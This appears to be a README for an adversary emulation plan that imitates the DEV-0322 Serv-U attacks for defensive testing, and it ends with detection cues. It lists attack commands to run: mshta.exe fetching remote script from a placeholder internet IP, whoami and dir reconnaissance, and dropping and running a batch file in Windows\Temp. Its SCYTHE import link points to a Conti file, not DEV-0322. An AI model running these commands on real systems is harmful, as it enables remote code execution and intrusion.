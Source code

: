 # DEV-0322 Adversary Emulation Plan

This threat is based on Microsoft Threat Intelligence Center (MSTIC) report post on July 13, 2021: https://www.microsoft.com/security/blog/2021/07/13/microsoft-discovers-threat-actor-targeting-solarwinds-serv-u-software-with-0-day-exploit/

## Emulate with SCYTHE
1. Download and import the threat in JSON format to your SCYTHE instance - https://raw.githubusercontent.com/scythe-io/community-threats/master/Conti/Conti_scythe_threat.json
2. Create a new campaign
3. Import from Existing Threat: DEV-0322
4. Launch Campaign
5. Execute from an EXE

## Emulate manually
Open a command prompt and run these commands:
- ``` C:\Windows\System32\mshta.exe http://<An Internet IP>```
- ```cmd.exe /c whoami > whoami.txt```
```cmd.exe /c dir > dir.txt```
- ```cmd.exe /c echo whoami > C:\Windows\Temp\Serv-U.bat```
- ```cmd.exe /c "C:\Windows\Temp\Serv-U.bat"```
- ```powershell.exe "C:\Windows\Temp\Serv-U.bat"```

## Detection & Response
- An executable spawning mshta.exe
- An executable spawning cmd.exe
- An executable spawning powershell.exe
- An executable spawning whoami
- An executable spawning dir
- mshta.exe reaching out to the internet